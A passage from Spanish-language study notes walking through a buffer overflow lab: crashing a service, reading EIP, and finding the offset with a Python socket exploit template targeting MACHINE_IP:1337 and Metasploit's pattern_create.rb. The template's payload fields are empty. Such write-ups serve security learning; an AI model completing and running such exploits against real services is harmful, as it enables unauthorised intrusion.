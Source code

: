 Lo preparamos
![[Pasted image 20240725101835.png]]

Y ahora lo ejecutamos y vemos que el programa crashea
![[Pasted image 20240710075415.png]]
![[Pasted image 20240710075507.png]]

Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir (el EIP consiste en la dirección de la próxima instrucción que se ejecutará):
![[Pasted image 20240710075645.png]]

## **OBTENER EL OFFSET**
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset, lo cual consiste en la cantidad de bytes que hay desde el comienzo del búfer hasta el punto donde se produce el desbordamiento.

Y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes, por lo que si el programa crasheaba a los 600, le añadimos unos +400 que hacen 1000.

# Script Exploit
Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20240710080034.png]]
